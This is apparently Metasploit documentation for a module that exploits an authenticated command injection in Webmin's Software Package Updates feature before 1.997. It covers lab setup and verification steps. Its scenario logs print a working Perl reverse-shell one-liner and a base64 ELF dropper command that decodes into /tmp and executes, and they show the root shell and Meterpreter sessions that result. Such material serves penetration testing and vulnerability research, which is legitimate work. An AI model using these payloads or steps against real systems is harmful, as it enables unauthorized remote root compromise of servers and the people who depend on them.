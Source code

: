 ## Vulnerable Application

This module exploits an arbitrary command injection in Webmin versions prior to
1.997.

Webmin uses the OS package manager (`apt`, `yum`, etc.) to perform package
updates and installation. Due to a lack of input sanitization, it is possible to
inject an arbitrary command that will be concatenated to the package manager call.

This exploit requires authentication and the account must have access to the
Software Package Updates module.

## Installation

### Ubuntu
- Download a vulnerable version: http://prdownloads.sourceforge.net/webadmin/webmin_1.996_all.deb
- Install it along with its dependencies (`libio-pty-perl` required when installing on Ubuntu 20.04)
```
apt-get install libauthen-pam-perl libio-pty-perl
dpkg -i ./webmin_1.996_all.deb
```

## Setup
- Go to `https://<target IP>:10000/`
- Login as `root` with the OS password
- Create a new user:
  `Webmin > Webmin Users > Create a new privileged user > enter the username and password > click Create`
- Setup permissions
  `Click on the username > Available Webmin modules > select "Software Package Updates" in the System module list > Save`

## Verification Steps
1. Install and setup the application
1. Start msfconsole
1. Do: `use exploit/linux/http/webmin_package_updates_rce`
1. Do: `run lhost=<local IP> rhosts=<target IP> username=<username> password=<user password>`
1. You should get a shell.

## Options

### TARGETURI

Set this to the Webmin base path. The default is `/`.

### USERNAME

The account username to use.

### PASSWORD

The account password.

## Scenarios

### Webmin 1.996 on Ubuntu 18.04
- Target 0 (`Unix In-Memory`)
```
msf exploit(linux/http/webmin_package_updates_rce) > run lhost=192.168.0.2 verbose=true rhosts=192.168.0.23 username=msfuser password=123456

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.0.2:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.996 detected
[+] Webmin 1.996 is a supported target
[+] The target appears to be vulnerable.
[*] Attempting login
[+] Logged in!
[*] Sending payload
[*] Command shell session 4 opened (192.168.0.2:4444 -> 192.168.0.23:51860) at 2022-08-03 11:26:01 +0200

id
uid=0(root) gid=0(root) groups=0(root)

cat /etc/issue
Ubuntu 18.04.6 LTS \n \l
```

- Target 1 (`Linux Dropper`)
```
msf exploit(linux/http/webmin_package_updates_rce) > run lhost=192.168.0.2 verbose=true rhosts=192.168.0.23 username=msfuser password=123456

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.996 detected
[+] Webmin 1.996 is a supported target
[+] The target appears to be vulnerable.
[*] Attempting login
[+] Logged in!
[*] Sending payload
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/abOFM.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/IBkCa' < '/tmp/abOFM.b64' ; chmod +x '/tmp/IBkCa' ; '/tmp/IBkCa' ; rm -f '/tmp/IBkCa' ; rm -f '/tmp/abOFM.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 192.168.0.23
[*] Meterpreter session 5 opened (192.168.0.2:4444 -> 192.168.0.23:51870) at 2022-08-03 11:26:51 +0200
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.0.23
OS           : Ubuntu 18.04 (Linux 5.4.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
